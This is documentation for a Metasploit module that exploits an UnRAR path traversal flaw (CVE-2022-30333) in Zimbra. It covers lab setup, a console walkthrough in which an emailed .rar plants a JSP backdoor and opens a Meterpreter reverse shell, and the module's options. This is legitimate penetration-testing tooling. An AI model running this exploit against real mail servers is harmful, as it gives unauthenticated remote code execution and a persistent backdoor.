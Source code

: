 ## Vulnerable Application

This module exploits a symlink-based path traversal vulnerability in UnRAR 6.11 and earlier (open source version 6.1.6 and earlier) on Zimbra. You can get the vulnerable version of `unrar` here:

* [Vulnerable unRAR version](https://www.rarlab.com/rar/rarlinux-x64-611.tar.gz)
* [Github commit](https://github.com/pmachapman/unrar/commit/22b52431a0581ab5d687747b65662f825ec03946)

Zimbra is the specific target, because certain Zimbra versions use `unrar` to scan incoming email. Specifically, the following versions of Zimbra, assuming the vulnerable version of `unrar` is installed, are affected:

* Zimbra Collaboration 9.0.0 Patch 24 (and earlier)
* Zimbra Collaboration 8.8.15 Patch 31 (and earlier)

Installing the vulnerable versions of Zimbra is a pain, unfortunately. Currently, the following command works to downgrade Zimbra from the current version:

```
# apt-get install zimbra-patch=8.8.15.1651873147.p31.1-1.u18 zimbra-mta-patch=8.8.15.1651844231.p31.1-1.u18 zimbra-proxy-patch=8.8.15.1651844231.p31.1-1.u18
# reboot
```

And to verify:

```
$ sudo -u zimbra /opt/zimbra/bin/zmcontrol -v
Release 8.8.15.GA.3869.UBUNTU18.64 UBUNTU18_64 FOSS edition, Patch 8.8.15_P31.1.
```

Followed by specifically installing the vulnerable version of `unrar` linked above. Downpatching Zimbra like that is really finnicky, though, so that likely won't always work.

## Verification Steps

To exploit Zimbra, first load the module and generate the .rar file:

```
msf > use exploit/linux/http/zimbra_unrar_cve_2022_30333
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/zimbra_unrar_cve_2022_30333) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf exploit(linux/http/zimbra_unrar_cve_2022_30333) > set RHOSTS 10.0.0.154
RHOSTS => 10.0.0.154
msf exploit(linux/http/zimbra_unrar_cve_2022_30333) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444 
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/lnijw.jsp
[+] payload.rar stored at /home/ron/.msf4/local/payload.rar
[+] File created! Email the file above to any user on the target Zimbra server
[*] Trying to trigger the backdoor @ public/lnijw.jsp...
[*] Trying to trigger the backdoor @ public/lnijw.jsp...
[...] waiting [...]
```

Then, email that file to any user (including a non-existent mailbox) on the Zimbra server. Once the payload arrives at Zimbra, Zimbra should try to extract it to check for malware with no user interaction. Metasploit should see the malicious file extracted and get a session:

```
[...]
[*] Trying to trigger the backdoor @ public/lnijw.jsp...
[*] Trying to trigger the backdoor @ public/lnijw.jsp...
[*] Sending stage (3020772 bytes) to 10.0.0.154
[+] Deleted ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/lnijw.jsp
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.154:39710) at 2022-07-27 13:18:03 -0700

meterpreter > getuid
Server username: zimbra
```

## Options

### `FILENAME`

The filename to generate - defaults to `payload.rar`, but can be changed on the filesystem or whatever.

### `TARGET_PATH`

The path (traversal included) where the payload will extract to. The default is the webroot, which is usually pretty safe.

### `TARGET_FILENAME`

The actual filename. It really should end with `.jsp`, otherwise it won't execute.

By default, it's a random string with `.jsp` on the end. That should work fine, especially because we can't overwrite files and don't want to use the same payload name more than once.

### `TRIGGER_PAYLOAD`

A boolean, default `true`, that determines whether we use HTTP requests to trigger the .jsp payload. Set to `false` to trigger the payload manually.

### `ListenerTimeout`

The number of seconds to wait for a new session (default = `0`, or infinite).

### `CheckInterval`

The frequency with which to check for the payload on the server. Every `CheckInterval`, it performs an HTTP request to the payload path.
